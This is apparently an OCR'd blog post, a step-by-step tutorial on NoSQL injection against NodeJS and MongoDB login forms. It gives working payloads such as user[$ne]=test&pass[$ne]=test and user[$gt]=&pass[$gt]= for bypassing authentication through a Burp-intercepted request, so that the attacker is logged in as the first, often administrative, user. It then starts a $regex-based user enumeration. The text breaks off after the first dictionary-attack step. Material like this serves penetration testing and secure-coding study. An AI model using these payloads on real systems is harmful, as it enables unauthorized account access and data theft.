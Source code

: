 ```yaml
---
layout: post
title: NodeJS and MongoDB NoSQL Injection
---
```


Authentication bypass (NoSQLi)<br/>
Users enumeration (blind NoSQLi)<br/>
Password cracking (blind NoSQLi)<br/>
Putting all together<br/>

## Authentication Bypass
##### 1 : Set burp as proxy
##### 2 : Make an authentication test with random credentials
![test_request]({{ site.baseurl }}/images/Capture du 2017-05-15 12-54-44.png)

##### 3 : Intercept and modify the request as below
```javascript
user=test&pass=test to user[$ne]=test&pass[$ne]=test
```
![intercept_request]({{ site.baseurl }}/images/Capture du 2017-05-15 12-59-35.png)

##### or use
```javascript
user[$gt]=&pass[$gt]=
```
![intercept_request_2]({{ site.baseurl }}/images/Capture du 2017-05-15 13-04-13.png)

##### 4 : You're now logged in as the first user in the database (which is often an administrator)
![get_logged_as_admin]({{ site.baseurl }}/images/Capture du 2017-05-15 13-06-26.png)

<br/>
<br/>

## User Enumeration

This time we're going to use the query contructor [$regex] : <br/>
```javascript
.     : means any character
.{5}  : means any character for position 5
```

<br/>

##### 1 : Dictionary attack
```javascript
user[$regex]=root&pass[$gt]=
```
![dic_attack_1]({{ site.baseurl }}/images/Capture du 2017-05-15 13-20-52.png)
